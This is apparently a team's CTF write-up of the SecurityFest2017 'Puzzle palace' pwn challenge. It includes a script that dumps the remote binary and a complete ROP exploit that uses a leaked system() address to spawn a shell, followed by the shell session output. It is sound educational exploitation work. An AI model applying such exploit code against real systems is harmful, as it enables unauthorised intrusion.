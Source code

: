 ```yaml
---
layout: post
title: "SecurityFest2017 - Puzzle palace"
date:   2017-06-01 20:00
categories: CTF
tags: [SecurityFest2017]
categories: [pwn]
author: jbz
---
```


Pwn - 100 Points

_Adventure time! Find the magic bytes, kill the wizard, get all the flags!_

This was a very fun challenge, too bad it was only worth 100 points :). The organizer provided the libc and a README containing this: `Yep you only get the libc, connect to the service and go for an adventure to get the rest.`

You can find the provided archive [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/puzzle_palace.tar.gz). The remote server was `pwn.ctf.rocks` port `6666`.

Great! Let's the fun start.

First of all we have to get the binary from the remote server. When we connect to it we find ourselves in front of this menu:
```
The Puzzle Palace
===============
1) Go on an adventure to find the magic bytes!
2) Fight the evil wizard with the magic bytes!
3) Return home with shame

#>
```
If we type `1` we get:
```
You enter the Puzzle Palace!
A message glows brightly on the wall of this room [7F454C4602010100000000000000000003003E0001000000100A000000000000400000000000000038210000000000000000000040003800090040001B001A00]
Where to now adventurer?
1) Up
2) Down

#>
```
We see `454C46`, which is the hex of `ELF`. That's probably the start of the binary. To get more of it we just have to type `2` in the prompt and it will continue playing bytes until EOF. I used this script to dump the whole thing:
```python
from pwn import *
s = remote("pwn.ctf.rocks", 6666)
s.sendlineafter("#>", "1")
with open("bin", "w") as f:
    while True:
        data = s.recvuntil("#>")
        data = data.split("[")[1].split("]")[0]
        print data
        data = data.strip()
        data = [data[i:i+2] for i in xrange(0,  len(data), 2)]
        for x in data:
            f.write(chr(int(x, 16)))
        s.sendline("2")
```
Yes, there is no check for EOF but the script crashes when it reached EOF so it's good enough :).

Let's see what the dumped binary is:
```
$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7c3b19746df3ef56476d19ce0f657e14c0eb19cb, stripped
$ checksec challenge 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Nasty... well let's see how it works.

We know `1` of the initial menu, which is the leak of the binary, nothing much else there. `3` just quits the program. There's an hidden menu item if you press `Z`:
```c
if ( menu_entry == 'Z' )
  printf("Woah, nice! You found the hidden 'system' libc address:%p!\n", &system);
```
It leaks the address of `system`! Handy! Let's remember it for later.

Let's now focus on `2`.
```
Hope you got those magic bytes ready!
The wizard points at you and starts yelling 'lightning bolt!'
This would be a good time use those magic bytes: 
```
This is what we see when we press `2` in the main menu prompt. Let's see what it does after that:
```c
read_s2(256);
if ( strncmp("1337p0werOverWhelMing1337", s2, 25uLL) )
{
  puts("You utter the magic bytes but they are wrong and the evil wizard burns you to a crisp, GG!");
  exit(0);
}
printf("Nice! Pwn the wizard with some ROP and ROLL now!: ");
return read(0, &buf, 0x1337uLL);
```
So:
- `read_s2` just zeroes `s2` and writes 256 bytes read from stdin to it
- If `s2` is not `1337p0werOverWhelMing1337` the program exits
- It reads 0x1337 bytes of data (that is 4919 bytes) and saves it in `buf`, which is just a pointer on the stack. Ok, we can write stuff... a lot of it :)

If you remember, the binary has `NX` enabled, so no shellcode on the stack. It doesn't have a stack canary, which makes things easier in this case. So we just have to control RIP and create a ROP chain to execute our shell.

This is the final exploit:
```python
from pwn import *

s = remote("pwn.ctf.rocks", 6666)
#s = process("./bin")
libc = ELF("libc.so.6_eea5f41864be6e7b95da2f33f3dec47f")

s.sendlineafter("#>", "Z")
data = s.recvuntil("#>")

system_address = int(data.split(":")[1].split("!")[0], 16)
sh_address = system_address - 210208
libc_base = system_address - 283536
pop_rdi = libc_base + 0x21102

ropchain = ""
ropchain = "A" * 8 * 5
ropchain += p64(pop_rdi)
ropchain += p64(sh_address)
ropchain += p64(system_address)
log.info("system: {:x}".format(system_address))
log.info("libc: {:x}".format(libc_base))
log.info("sh: {:x}".format(sh_address))

s.sendline("2")
s.sendlineafter(":", "1337p0werOverWhelMing1337")
s.sendlineafter(":", ropchain)
s.interactive()
```
We create a simple ROP chain that `pop`s the address that points to `sh` in `rdi` and then we call `system`. Pretty straightforward.

- We first leak `system`'s address, and since the organizer provided libc we can easily calculate the address of `sh` and the location of a `pop rdi` gadget.
- We then prepare the payload that contains:
  - 40 bytes of padding to get to RIP (found via gdb)
  - the address of `pop rdi` that will overwrite RIP
  - the address of `sh` that will be put in `rdi`
  - the address of `system` that will run what's in `rdi`

Of course, we have to pass the string `1337p0werOverWhelMing1337` first. And we get our shell:
```bash
$ python exploit.py 
[+] Opening connection to pwn.ctf.rocks on port 6666: Done
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] system: 7febe305e390
[*] libc: 7febe3019000
[*] sh: 7febe302ae70
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag
SCTF{1_4lwa4y5_h4t3d_w1zard5}
```

Happy hacking!



